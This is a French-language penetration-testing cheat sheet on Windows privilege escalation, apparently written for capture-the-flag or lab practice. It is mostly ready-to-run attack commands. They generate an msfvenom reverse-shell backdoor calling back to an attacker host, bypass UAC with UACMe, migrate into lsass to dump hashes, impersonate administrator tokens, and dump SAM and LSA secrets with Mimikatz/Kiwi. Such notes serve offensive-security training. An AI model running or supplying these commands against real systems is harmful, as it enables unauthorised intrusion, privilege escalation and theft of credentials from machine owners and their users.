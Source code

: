 # 🏴‍☠️ Élévation de Privilèges Windows

[← Retour à la table des matières](../README.md)

## Kernel Exploits

### Local Exploit Suggester
```bash
# Dans un meterpreter actif
use post/multi/recon/local_exploit_suggester
set SESSION session_id
run
```

## Bypass UAC avec UACMe

### Génération du payload malveillant → [📖 Guide MSFVenom](../06-tools/msfvenom.md)
```bash
# Génération avec msfvenom
msfvenom -p windows/meterpreter/reverse_tcp LHOST=KALI_IP LPORT=4444 -f exe > backdoor.exe
```

### Upload et exécution
```bash
# Dans le meterpreter
cd C:\\Users\\admin\\AppData\\Local\\Temp
upload /root/Desktop/tools/UACME/Akagi64.exe .
upload /root/backdoor.exe .

# Démarrer un handler dans un autre msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST KALI_IP
set LPORT 4444
run

# Exécution du bypass UAC (adapter selon la version)
shell
Akagi64.exe 23 C:\Users\admin\AppData\Local\Temp\backdoor.exe
```

### Post-bypass
```bash
# Dans le nouveau meterpreter avec privilèges élevés
ps -S lsass.exe
migrate PID_LSASS
hashdump
```

## Access Token Impersonation

### Vérification des privilèges
```bash
# Dans meterpreter
getprivs
# Rechercher SeImpersonatePrivilege
```

### Utilisation d'Incognito
```bash
# Chargement du module
load incognito

# Liste des tokens disponibles
list_tokens -u

# Impersonation d'un token administrateur
impersonate_token "DOMAIN\\Administrator"

# Migration vers un processus stable
pgrep explorer
migrate PID_EXPLORER
```

## Credential Dumping

### PowerSploit et PowerUp
```bash
# Dans un shell Windows
cd .\Desktop\PowerSploit\Privesc\
powershell -ep bypass
. .\PowerUp.ps1
Invoke-PrivescAudit

# Recherche dans les fichiers de configuration
cat C:\Windows\Panther\Unattend.xml
```

### Décodage de mots de passe Base64
```powershell
# Exemple de décodage
$password='QWRtaW5AMTIz'
$password=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($password))
echo $password
```

### Utilisation des credentials découverts
```cmd
# Exécution en tant qu'administrateur
runas.exe /user:administrator cmd
# Entrer le mot de passe découvert
whoami
```

## Kiwi Plugin (Mimikatz)

### Chargement et utilisation
```bash
# Migration vers lsass.exe (requis)
migrate -N lsass.exe

# Chargement du plugin Kiwi
load kiwi

# Dump de tous les credentials
creds_all

# Dump du SAM
lsa_dump_sam

# Dump des secrets LSA
lsa_dump_secrets
```

## Commandes utiles pour la recherche de flags

### Windows
```cmd
# Liste des répertoires
dir C:\

# Lecture d'un fichier
type C:\path\to\flag.txt

# Recherche récursive
dir C:\ /s /b | findstr flag
```

### Linux (via RDP)
```bash
# Connexion RDP depuis Linux
xfreerdp /u:username /p:password /v:targetIP:targetPort
```